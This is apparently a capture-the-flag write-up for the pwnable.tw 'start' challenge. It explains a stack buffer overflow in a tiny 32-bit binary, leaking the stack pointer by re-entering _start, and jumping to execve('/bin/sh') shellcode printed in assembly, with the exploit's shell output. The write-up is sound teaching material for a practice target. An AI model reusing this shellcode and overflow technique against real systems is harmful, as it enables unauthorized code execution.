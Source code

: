 # pwnable.tw - start
_Writeup by Zander Work_

Tl;dr buffer overflow to control `eip`, leak `esp`, and jump to shellcode

This binary is very small, and comes in at 564 bytes. The only function we care about is `_start`:
```asm
Dump of assembler code for function _start:
   0x08048060 <+0>:	push   %esp
   0x08048061 <+1>:	push   $0x804809d
   0x08048066 <+6>:	xor    %eax,%eax
   0x08048068 <+8>:	xor    %ebx,%ebx
   0x0804806a <+10>:	xor    %ecx,%ecx
   0x0804806c <+12>:	xor    %edx,%edx
   0x0804806e <+14>:	push   $0x3a465443
   0x08048073 <+19>:	push   $0x20656874
   0x08048078 <+24>:	push   $0x20747261
   0x0804807d <+29>:	push   $0x74732073
   0x08048082 <+34>:	push   $0x2774654c
   0x08048087 <+39>:	mov    %esp,%ecx
   0x08048089 <+41>:	mov    $0x14,%dl
   0x0804808b <+43>:	mov    $0x1,%bl
   0x0804808d <+45>:	mov    $0x4,%al
   0x0804808f <+47>:	int    $0x80
   0x08048091 <+49>:	xor    %ebx,%ebx
   0x08048093 <+51>:	mov    $0x3c,%dl
   0x08048095 <+53>:	mov    $0x3,%al
   0x08048097 <+55>:	int    $0x80
   0x08048099 <+57>:	add    $0x14,%esp
   0x0804809c <+60>:	ret
```

Here's what the function does:
 1. Save `esp` and return address
 2. Clear registers
 3. Build the string `Let's start the CTF:` on the stack
 4. Setup arguments for write syscall
 5. Make the syscall: `write(1, %esp, 20)`
   - `esp` points to the string "Let's start the CTF:"
 6. Setup arguments for read syscall
 7. Make the syscall: `read(0, %esp, 60)`
 8. Reset stack and return

There's a pretty obvious buffer overflow vulnerability in this binary. There are 20 bytes allocated in the function for the string "Let's start the CTF:", and the read syscall gets 60 bytes.

Let's check the security protections of the binary:
```
$ checksec start
[*] '/Users/zander/sec/pwnable.tw/start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

We see that NX is not enabled, so we can put shellcode on the stack and jump to it. However, we need to figure out where our shellcode is so we can jump to it.

Let's look at the layout of the stack write before the `read` system call:
```
+---------------+
|      esp      |
+---------------+
|    ret addr   |
+---------------+
|     "CTF:"    |
+---------------+
|     "the "    |
+---------------+
|     "art "    |
+---------------+
|     "s st"    |
+---------------+
|     "Let'"    |
+---------------+
```

Let's say we input "asdf\n" to the write system call. The stack would then look like this:
```
+---------------+
|      esp      |
+---------------+
|    ret addr   |
+---------------+
|     "CTF:"    |
+---------------+
|     "the "    |
+---------------+
|     "art "    |
+---------------+
|     "\n st"   |
+---------------+
|     "asdf"    |
+---------------+
```

With this, we are easily able to overwrite the return address. But how can we get esp?

Since PIE is disabled, we know the addresses of the code. Therefore, we can jump back into `_start` and read 20 more bytes. By jumping to `0x8048087`, we can setup another write system call to get another 20 bytes off the stack:
```
+---------------+
|      ????     |
+---------------+
|      ????     |
+---------------+
|      ????     |
+---------------+
|      ????     |
+---------------+
|      ????     |
+---------------+
|      ????     |
+---------------+
|      esp      |
+---------------+
```

Once we get to the read system call again, we can put the correct address for where our shellcode will be, and pop a shell.

Here's the shellcode I used:
```asm
xor %eax, %eax
mov $0x0b, %al
xor %ecx, %ecx
xor %edx, %edx
push %edx
push $0x68732f6e
push $0x69622f2f
mov %esp, %ebx
int $0x80
```

With that, we can get a shell on the remote system:
```
$ ./exploit.py
[+] Opening connection to chall.pwnable.tw on port 10000: Done
[*] leaked esp: 0xffb68210
[*] Switching to interactive mode
$ id
uid=1000(start) gid=1000(start) groups=1000(start)
```